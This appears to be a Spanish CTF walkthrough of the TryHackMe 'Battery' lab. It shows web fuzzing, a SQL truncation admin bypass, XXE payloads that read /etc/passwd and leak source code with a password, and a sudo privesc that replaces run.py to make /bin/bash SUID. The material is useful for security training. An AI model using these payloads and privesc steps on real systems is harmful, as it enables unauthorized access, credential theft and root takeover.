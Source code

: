 ```yaml
---
layout: post
title: Battery -THM
subtitle: "Battery -THM"
tags: [thm,sql,xxe]
---
```


## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

Descarga de binario en la ruta `http:///10.10.24.164/report`

![report](../assets/imgs/battery/report.png)

### Fuzzing web

```
❯ dirsearch -u "http://10.10.24.164/" -w /usr/share/wordlists/dirb/common.txt -e php,txt,html -f -t 60
[...]
[11:06:43] 200 -    1KB - /acc.php
[11:06:44] 200 -  663B  - /admin.php
[11:06:45] 200 -  663B  - /admin.php/
[11:07:02] 302 -  908B  - /dashboard.php  ->  admin.php
[11:07:15] 200 -    2KB - /forms.php
[11:07:21] 403 -  285B  - /icons/
[11:07:21] 200 -  406B  - /index.html
[11:07:30] 302 -    0B  - /logout.php  ->  admin.php
[11:07:53] 200 -  715B  - /register.php
[11:07:54] 200 -   17KB - /report
[11:07:57] 301 -  313B  - /scripts  ->  http://10.10.24.164/scripts/
[11:07:57] 200 -    2KB - /scripts/
[11:07:58] 403 -  293B  - /server-status/
[11:07:58] 403 -  292B  - /server-status
[11:08:15] 302 -    1KB - /with.php  ->  admin.php
```
Posibles usuarios

```
❯ strings report | grep "@bank" | tee users
admin@bank.a
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
control_admin@bank.a
it_admin@bank.a
```

### SQL truncation

[https://linuxhint.com/sql-truncation-attack/](https://linuxhint.com/sql-truncation-attack/)

Interptando petición web `register.php`  
Creo una cuenta como usuario administrador obtenido de las cadenas imprimibles del binario `report` que se habia descargado.

`admin@bank.a` tiene 12 caracteres y el tope en el login de la página es 12.  
Por tanto registro un usuario `admin@bank.a  a` con 2 espacios mas y un caracter adicional de esta forma bypasseando la seguridad de registro.

![burp](../assets/imgs/battery/burp.png)

Inicio sesion como usuario `admin@bank.a` 

![admin](../assets/imgs/battery/admin.png)

----

### XML External Entity Attack

> Un ataque de entidad externa XML es un tipo de ataque contra una aplicación que analiza la entrada XML. Este ataque ocurre cuando la entrada XML que contiene una referencia a una entidad externa es procesada por un analizador XML debilmente configurado.

Parámetro vulnerable `<search>`

![test123](../assets/imgs/battery/test123.png)

Payload

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE xxe [
	<!ENTITY payload SYSTEM "file:///etc/passwd">
	]>
	<root>
		<name>
			test
		</name>
		<search>
		&payload;
		</search>
	</root>
```

![passwd](../assets/imgs/battery/passwd.png)

### Obteniendo password para cyber

Payload

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE xxe [
	<!ENTITY payload SYSTEM "php://filter/convert.base64-encode/resource=acc.php">
	]>
	<root>
		<name>
			test
		</name>
		<search>
			&payload;
		</search>
	</root>
```

![acc](../assets/imgs/battery/acc.png)

```cyber:super#secure&password!```

Conexion por ```ssh```

```
ssh cyber@10.10.24.164
```

## Escalada de privilegios

Abusando de permisos mal configurados (sudo)

```
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
cyber@ubuntu:~$ ls -l
total 8
-rw--w---- 1 cyber cyber  85 Nov 15  2020 flag1.txt
-rwx------ 1 root  root  349 Nov 15  2020 run.py
```

Como estoy dentro de la carpeta de mi usuario puedo eliminar el archivo `run.py`, crearlo nuevamente y editarlo.

```
cyber@ubuntu:~$ rm run.py 
rm: remove write-protected regular file ‘run.py’? y
cyber@ubuntu:~$ ls
flag1.txt
cyber@ubuntu:~$ nano run.py
cyber@ubuntu:~$ cat run.py 
import os
os.system("chmod +s /bin/bash")
os.system("/bin/bash -p")
```

```
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
root@ubuntu:~# whoami
root
root@ubuntu:~# cat /root/root.txt 
████████████████████████████████████  
██                                ██  
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██  ████  ████  ████  ████  ████  ████
██                                ██  
████████████████████████████████████  


                                                battery designed by cyberbot :)
                                                Please give your reviews on catch_me75@protonmail.com or discord cyberbot#1859
```
